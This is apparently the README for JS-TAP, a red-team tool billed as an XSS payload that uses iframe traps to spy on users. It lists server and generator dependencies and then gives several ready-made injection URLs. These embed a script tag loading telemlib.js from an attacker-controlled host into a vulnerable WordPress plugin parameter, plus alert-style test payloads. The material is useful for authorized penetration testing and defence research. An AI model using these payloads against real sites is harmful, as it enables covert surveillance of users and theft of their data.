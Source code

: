 # JS-TAP
Tailored XSS payload that uses iFrame traps to spy on user. Can also be used as a post exploitation payload. 
Intended for redteam ops. 
@hoodoer
hoodoer@bitwisemunitions.dev

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 


Pip requirements: 

Server ones:
flask
flask-cors
flask-sqlalchemy
sqlalchemy-utils
flask-login
flask-bcrypt
python-magic
pyyaml
ua-parser
user-agents
pyopenssl
MarkupSafe


on mac I also needed: brew install libmagic


Generator ones:
dataframe_image
fpdf
progressbar




HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E

https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


-----
Local VM target server
http://targetapp.localdemo/wp-content/plugins/sketchyPlugin/unauthXSS.php

Alert:
http://targetapp.localdemo/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


JS-Tap:
http://targetapp.localdemo/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



